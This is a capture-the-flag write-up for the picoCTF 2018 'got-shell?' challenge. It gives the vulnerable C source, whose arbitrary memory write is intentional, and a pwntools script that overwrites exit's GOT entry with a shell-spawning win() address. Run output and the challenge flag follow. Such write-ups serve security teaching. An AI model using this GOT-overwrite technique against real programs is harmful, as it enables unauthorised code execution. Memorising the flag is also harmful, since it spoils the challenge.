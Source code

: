 ![title](images/title.png)

![hint](images/hint.png)

*checksec auth*

```
~/ctf_writeups/pico2018/binary/got-shell?# checksec auth
[*] '/root/ctf_writeups/pico2018/binary/got-shell?/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
~/ctf_writeups/pico2018/binary/got-shell?# 
```

Lets disect the souce

### auth.c

They are nice enough to give us a win() function that pops a shell. We just have to navigate there somehow
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}
```
So we can write an address using scanf. Seems very nice of them. Perhaps we can write the GOT exit function to return to win()

```c
int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

## Strategy

1. Find the address of win() and the global offset entry for exit().
2. Send the exit address, then send the win function after
3. cat the flag

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys

#get addresses
e = ELF('./auth')
win = e.symbols['win']
exit = e.got['exit']

context.log_level = 'info'

argc = len(sys.argv)

#local or remote
while True:
	if argc > 1:
		p = remote('2018shell.picoctf.com', 46464)
	else:
		p = process('./auth')

	#overwrite exit address with win address and cat the flag
	p.sendlineafter('\n', hex(exit)[2:])
	p.sendlineafter('\n', hex(win)[2:])
	p.sendline('cat flag.txt')
	try:
		#attempt to print the flag
		print p.recvuntil('}')
		p.close()
		break
	except:
		p.close()

	p.close()
```

<details>
	<summary>Flag</summary>

```
~/ctf_writeups/pico2018/binary/got-shell?# python apple.py test
[*] '/root/ctf_writeups/pico2018/binary/got-shell?/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 2018shell.picoctf.com on port 46464: Done
[*] Closed connection to 2018shell.picoctf.com port 46464
[+] Opening connection to 2018shell.picoctf.com on port 46464: Done
[*] Closed connection to 2018shell.picoctf.com port 46464
[+] Opening connection to 2018shell.picoctf.com on port 46464: Done
Okay, writing 0x804854b to 0x804a014
Okay, exiting now...

picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}
[*] Closed connection to 2018shell.picoctf.com port 46464
~/ctf_writeups/pico2018/binary/got-shell?# ^C
~/ctf_writeups/pico2018/binary/got-shell?# 
```
</details>